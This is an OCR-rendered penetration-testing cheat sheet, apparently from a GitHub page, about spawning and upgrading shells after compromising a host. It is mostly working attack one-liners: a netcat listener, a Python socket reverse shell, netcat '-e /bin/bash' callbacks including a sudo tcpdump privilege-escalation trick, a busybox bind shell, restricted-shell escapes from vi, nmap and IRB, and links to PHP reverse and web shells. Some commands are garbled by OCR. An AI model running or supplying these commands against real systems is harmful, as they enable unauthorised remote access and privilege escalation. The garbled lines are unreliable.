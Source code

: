     `nc -nlvp 4444`

-   Spawning a TTY Shell - Break out of Jail or limited shell
         You should almost always upgrade your shell after taking control of an apache or www user.
         
        (For example when you encounter an error message when trying to run an exploit sh: no job control in this shell )
        
        (hint: sudo -l to see what you can run)
        
     -   You may encounter limited shells that use rbash and only allow you to execute a single command per session.
         You can overcome this by executing an SSH shell to your localhost:
         
               ssh user@$ip nc $localip 4444 -e /bin/sh
               enter user's password
               python -c 'import pty; pty.spawn("/bin/sh")'
               export TERM=linux
         
      `python -c 'import pty; pty.spawn("/bin/sh")'`

               python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);          s.connect(("$ip",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"\]);'

      `echo os.system('/bin/bash')`

      `/bin/sh -i`

      `perl —e 'exec "/bin/sh";'`

      perl: `exec "/bin/sh";`

      ruby: `exec "/bin/sh"`

      lua: `os.execute('/bin/sh')`

      From within IRB: `exec "/bin/sh"`


      From within vi: `:!bash`
     or
     
      `:set shell=/bin/bash:shell`
     
      From within vim `':!bash':`

      From within nmap: `!sh`

      From within tcpdump
      
         echo $’id\\n/bin/netcat $ip 443 –e /bin/bash’ > /tmp/.test chmod +x /tmp/.test sudo tcpdump –ln –I eth- -w /dev/null –W 1 –G 1 –z /tmp/.tst –Z root

      From busybox  `/bin/busybox telnetd -|/bin/sh -p9999`

-   Pen test monkey PHP reverse shell  
    [http://pentestmonkey.net/tools/web-shells/php-reverse-shel](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

-   php-findsock-shell - turns PHP port 80 into an interactive shell  
    [http://pentestmonkey.net/tools/web-shells/php-findsock-shell](http://pentestmonkey.net/tools/web-shells/php-findsock-shell)
